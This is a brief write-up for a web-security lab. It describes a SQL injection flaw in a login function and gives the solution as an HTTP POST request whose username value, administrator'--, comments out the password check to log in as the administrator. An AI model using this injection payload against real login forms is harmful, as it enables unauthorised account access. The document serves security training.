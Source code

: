 ## Description:

this lab contains a SQL injection vulenrability in the login function

to solve the lab perform an injection to bypass the login for the administrator user

## Solution:

```http
POST /login HTTP/2
[truncated headers]

{...}&username=administrator'--&password=a
```


